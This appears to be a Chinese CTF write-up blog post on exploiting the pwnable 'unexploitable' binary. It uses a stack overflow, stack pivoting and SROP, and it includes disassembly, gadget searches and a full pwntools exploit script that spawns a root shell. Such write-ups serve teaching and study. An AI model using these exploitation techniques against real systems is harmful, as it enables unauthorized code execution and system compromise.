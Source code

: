 ﻿---
layout: post
title: pwn pwnable login
excerpt: "pwnable login wirteup"
categories: [Writeup]
comments: true
---

```
file unexploitable 
unexploitable: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=aba2c1fb7a4bca286d75e23006f9fe01dfcb03c2, not stripped

```

ida打开,看到典型的栈溢出,offset为`0x10+8 = 24`
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [sp+0h] [bp-10h]@1

  sleep(3u);
  return read(0, &buf, 0x50FuLL);
}
```
got表中没有system，也没有write，puts之类的输出函数，没办法泄露libc，使用ROPgadget也搜不到syscall。(ROPgadget似乎存在一个缺陷，无法把单独的syscall识别成一个gadgetROPgadget无法查找到syscall,我们使用ropper来查找)

使用ropper查找gadget
```
ropper -f unexploitable |grep syscall
/usr/lib64/python2.7/site-packages/cffi/cparser.py:164: UserWarning: Global variable 'r' in cdef(): for consistency with C it should have a storage class specifier (usually 'extern')
  "(usually 'extern')" % (decl.name,))
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
0x0000000000400560: syscall; 
```
使用`objdump -d unexploitable |less`查找read地址
```
0000000000400430 <read@plt>:
  400430:       ff 25 ca 0b 20 00       jmpq   *0x200bca(%rip)        # 601000 <read@GLIBC_2.2.5>
  400436:       68 00 00 00 00          pushq  $0x0
  40043b:       e9 e0 ff ff ff          jmpq   400420 <.plt>

```
通过ida_pro查看到read函数的地址
```
.text:000000000040055B                 lea     rax, [rbp+buf]
.text:000000000040055F                 mov     edx, 50Fh       ; nbytes
.text:0000000000400564                 mov     rsi, rax        ; buf
.text:0000000000400567                 mov     edi, 0          ; fd
.text:000000000040056C                 mov     eax, 0
.text:0000000000400571                 call    _read
.text:0000000000400576                 leave
.text:0000000000400577                 retn
.text:0000000000400577 main            endp
```
我们可以通过stack pivot将sh读取到一个特定的地址
```python
syscall_addr = 0x400560
set_read_addr = 0x40055b
read_addr = 0x400571
fake_stack_addr = 0x60116c
fake_ebp_addr = 0x60116c
binsh_addr = 0x60115c

io = remote('172.17.0.3', 10001)

payload = ""
payload += 'a'*16               #padding
payload += p64(fake_stack_addr) #两次leave造成的stack pivot，第一次使rbp变为0x60116c, rbp+buf为0x60115c
payload += p64(set_read_addr)   #lea rax, [rbp+buf]; mov edx, 50Fh; mov rsi, rax; mov edi, 0; mov eax, 0; call _read
io.send(payload)
```
执行完第二次read之后，我们测试用的数据1234被读取到了固定地址0x60115c处，然而由于call _read后的leave，栈也被劫持到了0x601174.此时rip又指向了retn，所以我们把测试数据替换成ROP链就可以继续进行操作。这里我们可以顺势把”/bin/sh\x00”放在0x60115c，然后接上一些填充字符串，在0x601174接rt_sigreturn，后面接SigreturnFrame，就完成SROP了。
```
------------
/bin/sh\x00 |	0x60115c
------------|
padding     |
------------|
new ebp     |	0x60116c
------------|
rt_sigreturn|	0x601174 fake rip
------------
```
栈中的结构如下
```
---------------
padding        |	
---------------|
fake_stack_addr|	rbp address,作用是将rbp跳转到新的rbp
---------------|
read_addr      |	return addr
---------------
```
但是问题是我们只有syscall，怎么设置rax=0xf从而调用rt_sigreturn呢？
我们知道read的返回值是其成功读取的字符数，而i386/amd64的返回值一般保存在eax/rax中。因此，我们可以先再次调用read读取15个字符，然后执行到retn时调用syscall。因此构造payload如下

```
------------
/bin/sh\x00 |	0x60115c
------------|
padding     |
------------|
new ebp     |	0x60116c ,指向0x60117c
------------|
read addr   |	0x601174 return addr
------------|
new new ebp |	0x60117c ,指向0x60116c
------------|
syscall_addr|   0x601184 
------------|
frameExecve |	syscall_addr下面直接跟着等待恢复的frameExecve
------------
```
最终的exp代码
```python
#!/usr/bin/python
#coding:utf-8

from pwn import *

context.update(os = 'linux', arch = 'amd64')

syscall_addr = 0x400560     #这个通过`ropper -f unexploitable |grep syscall`找到
set_read_addr = 0x40055b    #这个通过ida中main方法里的汇编,找到
read_addr = 0x400571        #.text:0000000000400571                 call    _read
fake_stack_addr = 0x60116c
fake_ebp_addr = 0x60116c
binsh_addr = 0x60115c       #   程序通过bp-0x10来找到sh,所以sh的地址为fake_ebp_addr - 0x10  = 0x60115c

io = process('./unexploitable')

payload = ""                                            #这个exp就是将sh字段放到binsh_addr中
payload += 'a'*16				#padding
payload += p64(fake_stack_addr)	#两次leave造成的stack pivot，第一次使rbp变为0x60116c, rbp+buf为0x60115c
payload += p64(set_read_addr)	#lea rax, [rbp+buf]; mov edx, 50Fh; mov rsi, rax; mov edi, 0; mov eax, 0; call _read        注意:这里是return address
io.send(payload)
sleep(3)

frameExecve = SigreturnFrame()				#设置SROP Frame   这个是system(sh)
frameExecve.rax = constants.SYS_execve
frameExecve.rdi = binsh_addr
frameExecve.rsi = 0
frameExecve.rdx = 0
frameExecve.rip = syscall_addr

payload = ""                            #这个payload是发送给上一个rop的read函数
payload += "/bin/sh\x00"				#\bin\sh，在0x60115c (binsh_addr)
payload += 'a'*8						#padding
payload += p64(fake_stack_addr+0x10)	#在0x60116c，leave指令之后rsp指向此处+8，+0x18之后指向syscall所在栈地址
payload += p64(read_addr)				#在0x601174，rsi, rdi, rdx不变，调用read，用下面的set rax输入15个字符设置rax = 15
payload += p64(fake_ebp_addr)			#call read下一行是leave, rsp再次被换成fake_stack_addr+0x10+8, 即0x60117c+8。随便设置了一个可读写地址
payload += p64(syscall_addr)			#在0x60117c+8，即0x601184，调用syscall。上一步的call read读取了15个字符，所以rax=0xf，这个syscall将会触发sys_sigreturn，触发SROP
payload += str(frameExecve)				#syscall下面直接接SigreturnFrame
io.send(payload)
sleep(3)

io.send('/bin/sh\x00' + ('a')*7)		#读取15个字符到0x60115c，目的是利用read返回值为读取的字节数的特性设置rax=0xf，注意不要使/bin/sh\x00字符串发生改变
sleep(1)

io.interactive()
```
最终的结果
```bash
python exp.py 
[+] Starting local process './unexploitable': pid 18743
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)

```





